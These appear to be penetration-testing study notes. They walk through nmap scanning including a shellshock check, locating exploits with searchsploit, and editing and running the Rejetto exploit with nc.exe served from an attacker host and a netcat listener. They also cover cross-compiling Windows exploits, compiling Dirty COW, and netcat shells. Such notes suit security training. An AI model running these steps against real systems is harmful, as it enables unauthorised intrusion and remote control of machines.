 Note: Alot of exploits are found in the other folders too so dont rely on this alone

## Intro

1. Vuln scanning
2. Exploit searching
3. Fixing exploits
4. Bind & reverse shells
5. Exploit Frameworks
6. Windows exploit
7. Linux exploit
8. AV Evasion and Obfuscation


# Vuln scanning
### banner grabbing
- can get service info

Demo:
Some nmap script
`ls -al /usr/share/nmap/scripts/ | grep banner`
`nmap -sV --script=banner <ip>` -> done in -sV

`nc <ip>` -> same stuff but sometimes nmap sV dont work

### nmap scripts
Demo:
`ls -al /usr/share/nmap/scripts |grep http` -> limit to only http scripts

See the documentation on scripts
`nano /usr/share/nmap/scripts/http-enum.nse`

For this demo
`ls -al /usr/share/nmap/scripts |grep shellshock`

`nmap -sV <ip> --script=http-shellshock --script-args="http-shellshock.url=/gettime.cgi"`

### Metasploit

demo:
/smb/smb_ms17_010


## Searching for publicly available exploits

- get code from verified sources (anyone can set a github)
- epxloitDB / Rapid7 

#### ExploitDB
- maintained by a team from kali
- search types/platforms/authors/ports/tags(type of vuln) etc

#### Rapid7
- vetted. Same as before

#### Google Dorks it
- vsftpd site:rapid7.com

#### Data storm
- Info on latest news and new exploits etc

### Searchsploit
- locally available db for exploits
`sudo apt-get update && sudo apt-get install exploitdb -y`

Should update it frequently
`searchsploit -u`

Exploits stored here
`ls -al /usr/share/exploitdb`

`searchsploit vsftpd 2.3.4`
`searchsploit -m 49757` -> get info about the exploit and copies it to ur current dir

Filters like in the exploitdb site:
`searchsploit remote windwos smb`


Xtra:
`searchsploit -t vsftpd`
-> search in title

`searchsploit -e "Windows XP" | grep -e "Microsoft Windows XP"
-> exact match

`seachsploit remote windows smb -w | grep -e "EternalBlue"`
-> -w gives the online link to read more about each exploit


## Fixing exploits
- All publicly available exploits need to be edited to suite ur needs

Demo:
rejetto
`searchsploit rejetto`
`searchsploit -m <exploit id>`

Edit the exploit code to use (eg change ip/port)
`vim <exploit.py>`
This exploit needed nc.exe to be hosted on your local server to run on the target

Attacker
`cp /usr/share/windows-resources/binaries/nc.exe`
-> Copy it to the home directory to share 
`python -m SimpleHTTPServer 80`

Attacker (another terminal)
`nc -lvnp 1234`

Attacker (3rd terminal terminal)
`python 29161.py <targetip> 80`

Run a few times.should work
`systeminfo`


### Cross-compiling exploits
- need to compile C/C++ exploit code
- Using Linux to compile windows exploits (cross-compiling)

Demo:
For creating Microsoft Windows portable executables in linux
`sudo apt-get install mingw-w64`

For C code in Linux
`sudo apt-get install gcc`

Note: Better to get the 32bit exploits more compatible

#### If no documentation of how to compile
Compiles to a 64bit executable
`i686-w64-mingw32-gcc 9303.c -o exploit`

Compiles to a 32bit executable
`i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32`

#### Dirty cow exploit
- Has good documentation on how to use/compile
`gcc -pthread 4089.c -o exploit -lcrypt`

Last:
github exploitdb-bin-sploits/bin-sploits has some precompiled binaries if needed


## Bind/Reverse Shells

## Netcat
- located in /usr/share/windows-binaries
- 2 modes:
	- Client mode: Connect to the target directly 
	- Server mode: Listen for connections from the target (-l)
`nc <ip>:<port>`
`nc -lvnp <port>`

Note: 
UDP also possible -u
-v verbose
-n no dns resolution (doesnt change the ip/name to something else)

Uses:
banner grabbing, reverse/bind shells, file transfers












